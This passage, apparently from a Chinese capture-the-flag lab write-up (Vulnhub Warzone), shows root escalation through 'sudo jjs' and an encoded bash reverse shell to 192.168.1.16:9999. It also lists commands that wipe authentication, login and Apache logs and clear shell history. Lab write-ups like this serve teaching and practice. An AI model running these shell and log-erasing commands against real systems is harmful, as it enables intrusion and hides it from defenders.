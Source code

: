 

使用网站`gtfobins.github.io`搜索用法，其实和这个历史记录是一样的

```shell
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
```

![](D:\stu\vulnhub\warzone靶场\pic-1\21.jpg)

不过上面的代码一用就卡死，所以稍微改动一下，使其新建一个shell，并反弹出去，因为这里的`exec`是执行命令的

这里建议自己测试，或者使用**网站**`https://forum.ywhack.com/shell.php`，其生成大量的`shell`，不成功可以多试试几个

这里以`bash`进行，这里是把语句`bash -i >& /dev/tcp/192.168.1.16/9999 0>&1`进行`base64`编码，因为直接使用的时候，发现这里的符号`&`会产生一些影响，所以进行编码处理

```shell
echo "Java.type('java.lang.Runtime').getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTYvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}').waitFor()" | sudo jjs
```

![](D:\stu\vulnhub\warzone靶场\pic-1\22.jpg)

查看`root.txt`，之前提示过，结构与`captain`相似，所以直接到`Desktop`目录可以看到

![](D:\stu\vulnhub\warzone靶场\pic-1\23.jpg)

然后还发现了加密后的密码，也可以在继续做下去，解密这个，与前面一样的

# 痕迹清理

主要就是网站目录爆破产生的日志，以及身份认证

```shell
sed -i "/192.168.1.16/d" /var/log/auth.log
echo > /var/log/btmp
echo > /var/log/wtmp
echo > /var/log/faillog
echo > /var/log/lastlog
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```

然后就是历史记录，最好就是把其用户的家目录下的`.bash_history`文件中，最后操作的一些行删除

```shell
history -r 
history -c
```

最后就是创建的脚本文件，用于解密加密密码的，删除即可

# 总结

该靶场考察以下几点
